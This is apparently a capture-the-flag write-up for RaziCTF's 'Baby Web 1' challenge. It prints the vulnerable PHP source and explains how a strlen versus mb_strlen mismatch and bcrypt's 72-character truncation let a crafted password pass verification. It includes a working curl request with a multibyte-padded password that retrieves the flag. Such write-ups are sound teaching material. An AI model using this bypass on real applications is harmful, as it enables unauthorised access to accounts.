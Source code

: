 # Baby Web 1

## Task

Someone wrote the perfect authentication system but its only weakness is that the previous password must be stored in the file.

Url: http://smerdis.razictf.ir/babyweb1/

Tags: Web security

## Solution

On the website we are given this source code:

```php
<?php
$prev_pass = "66842480683974257935677681585401189190148531340690145540123461534603155084209704";
if ( isset($_GET["password"])) {
    if ( mb_strlen($_GET["password"], 'utf8') < strlen($prev_pass)){
        if ( strlen($_GET["password"]) > mb_strlen($prev_pass, "utf8")){
            $input_h = password_hash($_GET["password"], PASSWORD_BCRYPT);
            if ( password_verify($prev_pass, $input_h)){
                echo exec("cat flag.txt");
                die();
            } else {
                echo "Are you trying to hack me?!";
                die();
            }
        } else {
            echo "Nope";
            die();
        }
    } else {
        echo ":/";
        die();
    }
} else {
    highlight_file(__FILE__);
    die();
}
?>
```

We need to provide GET parameter password. It has to pass two length checks. `mb_strlen` returns the amount of multibyte characters where as `strlen` returns the amount of bytes.

https://www.php.net/manual/en/function.strlen.php `Note: strlen() returns the number of bytes rather than the number of characters in a string.`

If we replace three charactes with two multibyte characters our multibyte strlen is less than the original strlen (-3 + 2 = -1). Our strlen is also greater than the multibyte strlen of the original pass (-3 + 4 = +1).

Let's see if that works and we get `Are you trying to hack me?!`:

```bash
$ curl "http://smerdis.razictf.ir/babyweb1/?password=66842480683974257935677681585401189190148531340690145540123461534603155084209$(printf '\u1337\u1337')"
RaziCTF{w3ll_d0nE_go_0n_to_THE_n3xT_OnE}
```

Wait, what? How did I pass the `password_verify` check?

After debugging it locally and reducing the input one char at a time `password_verify` returns 1 as long as the input length is greater or equal than 72. Turns out this is also documented on https://www.php.net/manual/en/function.password-hash.php

`Caution Using the PASSWORD_BCRYPT as the algorithm, will result in the password parameter being truncated to a maximum length of 72 characters.`
